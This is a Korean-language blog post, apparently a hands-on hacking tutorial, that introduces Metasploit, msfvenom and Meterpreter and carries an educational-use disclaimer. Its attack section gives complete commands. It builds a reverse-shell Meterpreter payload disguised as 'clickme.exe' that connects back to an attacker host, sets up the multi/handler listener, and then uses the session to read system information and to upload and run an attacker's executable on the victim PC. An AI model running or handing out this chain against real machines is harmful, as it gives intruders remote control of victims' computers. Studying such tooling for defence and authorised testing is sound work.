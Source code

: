 ```yaml
---
layout: post
title: Metasploit Meterpreter를 이용한 해킹 실습
categories: Tool
tags: Metasploit
---
```

# 목차
1. Disclaimer
1. Metasploit, msfvenom, meterpreter 란
1. PoC
1. 공격 코드 설명
- - -
  
# 1. Disclaimer
<span style="color:red">
All the content shown in this post is only for educational purposes. Any misuse of this content is completely at your own risk.
Do not try to attempt to break laws or do any illegal stuff by using this.

이 포스트에서 보여지는 모든 컨텐츠는 교육적인 목적으로만 제작되었습니다. 해당 컨텐츠를 오용한 결과는 전적으로 오용한 본인 책임입니다.
이 포스트에서 다루는 내용을 이용해 불법적인 일을 저지르려고 하지 마십시오.
</span>
- - -
# 2. Metasploit, msfvenom, meterpreter 란
## – Metasploit
메타스플로잇 프로젝트란 취약점 분석과 IDS 서명 개발 보조기구 등에 대한 정보를 제공하는 것을 목적으로 하고 있습니다. 2007년 루비에 의하여 재구조된 후, 2009년 10월 21일 Rapid7이라는 통일 취약성 관리 솔루션을 제공하는 보안 회사에 인수되었습니다.

칼리 리눅스에 메타스플로잇이 기본으로 설치되어있고, 실제로 직접 metasploit-framework 의 모듈 폴더를 보면 탑재된 모듈이 루비로 작성되어있다는 것을 확인할 수 있습니다.


메타스플로잇은 위와 같이 msfbinscan, msfconsole, msfd, msfdb, msfelfscan, msfmachscan, msfpescan, msfremove, msfrop, msfrpc, msfrpcd, msfupdate, msfvenom 이란 프로그램들로 구성되어 있습니다.  
여기서 ~scan이란 이름의 프로그램들은 익스플로잇 도구를 제작할 때 쓰이는 도구이고, 대부분 메타스플로잇을 사용한다고 하면 msfconsole이란 콘솔 커맨드라인 인터페이스를 의미합니다. msfconsole은 메타스플로잇의 대부분의 기능을 지원합니다.

## – msfvenom
위의 프로그램 중에 msfvenom이란 이름의 프로그램이 있습니다. 메타스플로잇의 커맨드라인 인스턴스로써 다양한 쉘 코드를 생성할 수 있습니다.  
예로, 공격자의 ip와 포트번호를 삽입하여 희생자 windows pc의 쉘을 따내는 프로그램을 제작하는데 사용됩니다.

## – meterpreter
메타스플로잇 공격은 주로 msfconsole -> search -> use -> info -> show options -> set -> exploit -> meterpreter 순으로 진행이 됩니다.  
여기서 미터프리터는 in-memory DLL인젝션을 사용한 페이로드로써, 최종적으로 희생자 pc의 exploit에 성공해서 미터프리터 세션이 맺어져 쉘 권한을 획득해 직접 희생자 pc에 명령을 내릴 수 있게 네트워크를 유지시켜줍니다.
- - -
# PoC
{% include youtube_embed.html id="G-3jJCqQ_m8" %}
- - -
# 4. 공격 코드 설명
{% highlight bash %}
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.xxx.xxx LPORT=7777 -f exe -o clickme.exe
{% endhighlight %}
msfvenom을 이용해 페이로드(-p)로 윈도우즈 미터프리터 리버스 커넥션을 맺습니다. 여기서 리버스 커넥션이란, 외부에서 내부로 들어오는 inbound 트래픽은 방화벽에서 막지만, 그 반대인 outbound 트래픽의 경우 대부분은 허용해주는 것을 이용해 내부망에서 외부망으로 거꾸로 접속을 하도록하는 쉘코드를 의미합니다.  
LHOST는 공격자 아이피이고 LPORT는 공격자 임의의 포트로 설정합니다.  
포맷(-f)은 exe로 윈도우즈 실행 프로그램이며, clickme.exe 형태로 페이로드를 저장합니다.

{% highlight bash %}
msf5 > use exploit/multi/handler
{% endhighlight %}
{% highlight bash %}
msf5 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
{% endhighlight %}
{% highlight bash %}
msf5 exploit(multi/handler) > set lhost 192.168.xxx.xxx
{% endhighlight %}
{% highlight bash %}
msf5 exploit(multi/handler) > set lport 7777
{% endhighlight %}
{% highlight bash %}
msf5 exploit(multi/handler) > exploit
{% endhighlight %}
익스플로잇을 하고 희생자 pc에서 clickme.exe를 클릭하면 리버스 커넥션이 맺어졌다는 메시지와 함께 미터프리터 세션이 열렸다는 메시지를 받게 됩니다.

{% highlight bash %}
meterpreter > sysinfo
{% endhighlight %}
미터프리터 세션을 이용해 희생자 pc의 시스템 정보를 알아냅니다.

{% highlight bash %}
meterpreter > upload Warning.exe
{% endhighlight %}
Warning.exe라는, 공격자가 만들어낸 윈도우즈 실행파일을 희생자 pc에 업로드 시킵니다.

{% highlight bash %}
meterpreter > execute -f Warning.exe
{% endhighlight %}
공격자가 임의로 Warning.exe를 실행시킵니다.